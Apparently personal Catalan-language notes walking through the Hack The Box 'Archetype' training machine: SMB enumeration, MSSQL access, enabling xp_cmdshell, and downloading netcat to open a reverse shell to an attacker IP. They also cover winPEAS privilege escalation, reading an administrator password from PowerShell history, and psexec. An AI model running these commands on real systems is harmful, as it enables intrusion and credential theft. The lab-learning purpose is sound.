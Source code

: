 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 | Yes |


# Thought process
1. Enumeration


```
smbclient -N -L @IP
```
Veure desde Linux el Samba Server.
Això llista els disc/impresores que poden compartir amb l'usuari.
[-L]: Per especificar host
[-N]: NOSE

```
smbclient \\\\@IP\\folder_name
```

https://tldp.org/HOWTO/SMB-HOWTO-8.html

get file_name
[//]: La ruta es desde on has executat la terminal de Kali

```
~/HTB/impacket/examples
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.90.161 -windows-auth
```

un cop en el server, s'ha de permettre `enable_xp_cmdshell` perque despres farem comandos de windows al servidor.

???perque collons ers lo de responder





# FINDS
ARCHETYPE\sql_svc = M3g4c0rp123

mssqlclient.py (Estavlir conexio autentificada amb el servidor SQL)
xp_cmdshell (Executar Consola de Comandos de Windows en Microsoft SQL)
winpeas (Privilegie Escalation)

---
# Archetype
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

username: dbo
system_user: sql_svc

> Veure quin rol tenim
```SQL
SQL> SELECT is_srvrolemember('sysadmin');
```
1 --> True

> Llistar Databases
```sql
SQL> EXEC sp_databases;
```


> Execució de commandes
```sql
SQL> EXEC xp_cmdshell ‘net user’;

SQL> EXEC sp_configure ‘show advanced options’, 1; — priv

SQL> RECONFIGURE; — priv

SQL> EXEC sp_configure ‘xp_cmdshell’, 1; — priv

SQL> RECONFIGURE; — priv
```
[priv]: S'han d'executatr amb usuari que tingui permisos d'admin

!! Com que ja podem executar commandes, intentarem executar una reverse shell. (nc64.exe)

> Escoltar port 80 local (Python)
```bash
$ sudo python3 -m http.server 80
```

> Escoltar port 80 local (netcat)
```bash
$ sudo nc -lvnp 443
```

?¿ Quina és la diferencia

> Saber directori del server
```sql
SQL> xp_cmdshell "powershell -c pwd";
```


En aquest directori no hi ha permisos d'execucció per l'usuari sql_svc així que haurem d'utilitzar el alguna ruta del seu directori.
Després fem la petició de la reverse shell que tenim en local.

> Canvi de directori i Reverse Shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.123/nc64.exe -outfile nc64.exe"
```

Podrem observar que el python que tenim escoltant al port 80 ha rebut una petició de GET.

> Solicitar cmd com a reverse shell al Local
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.123 443"
```

El netcat ja haurà rebut la petició de la reverse shell al port 443

![[Pasted image 20220528174933.png]]


Busquem la flag en el sistema i amb un `more` llegim el contingut

---

# Privilegie Escalation
Utilitzarem l'eina WinPeas. Primer descarreguem en local i despres la solicitem desde la màquina. 
(Continuar fent escolta en el port 80 amb python)
[Link descarrega](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

Executar escolta en port 80 desde l'ubicació on està el winPEAS. Fer `wget` de l'arxiu

```powershell
wget http://10.10.14.123/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: S'ha d'estar en un directori on l'usuari tingui permissos.

Executem el binari utilitzant la reverse shell
```powershell
.\winPEASx64.exe
```

Podem observat que hi ha `SeImpersonatePrivilege` [Link](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) i aquest es vulnerable a "[juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)". Però abans mirem si hi ha arxius que puguin contindre passwords.

Com que 'sql_svc' es un usuari normal, podem mirar el equivalent al '.bashrc' de powershell.
```powershell
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

El fitxer conté la contrasenya de administrador.
administrator:MEGACORP_4dm1n!!

Ara podem executar `psexec.py` desde impacket per tenir una shell com Administrador.

```bash
$ python3 psexec.py administrator@Target_IP
```
![[Pasted image 20220528174919.png]]
La root flag es troba en el desktop de l'usuari










